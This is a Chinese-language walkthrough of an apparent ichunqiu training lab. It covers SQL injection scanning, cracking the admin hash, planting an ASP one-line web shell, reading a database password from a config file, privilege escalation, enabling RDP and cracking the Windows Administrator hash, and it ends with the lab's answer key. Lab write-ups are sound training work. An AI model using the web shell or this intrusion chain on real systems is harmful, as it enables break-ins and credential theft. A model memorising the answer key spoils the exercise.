










### 1、扫描是否注入点

使用`明小子`-->`SQL注入`-->`批量扫描注入点` 扫描注入点



### 2、暴力猜解管理员密码



扫出`admin`表管理员`linhai`的密文密码`d7e15730ef9708c0`



破解得明文密码`linhai19760812`

### 3、御剑后台地址

扫出后台地址为`http://www.test.ichunqiu/admin/login.asp`



### 4、拿webshell

可以看到数据库以`.asp`文件存储 



找个可以输入的地方注入一句话

在 `友情连接管理` 写入asp一句话



```asp
<% eval request("a")%>
```

菜刀连接



### 5、查看配置文件找出数据库密码

在`wwwroot\conn_old.asp`找出密码为`linhai123456woaini`



### 6、抓管理员密码

套路和`我很简单...`练习一样

PR提权-->创建管理员用户-->开3389-->抓取密码hash值



Administrators的hash为: `3C8D6C158F6FB3D1FDCFC2AFB2D1BE34:594B9CD2577A5AC2BE0CA522D5EC6ACE`(MMP不能复粘贴超恶心)

破解出密码:`88hvpebv`


### 7、所以答案是:
```
本实验中后台管理员`linhai`的密码是?: `linhai19760812`
本实验中论坛可否获得Webshell？: `不可以`
本实验中SQL Server数据库sa账号的密码是？: `linhai123456woaini`
获取管理目标服务器密码: `88hvpebv`
```

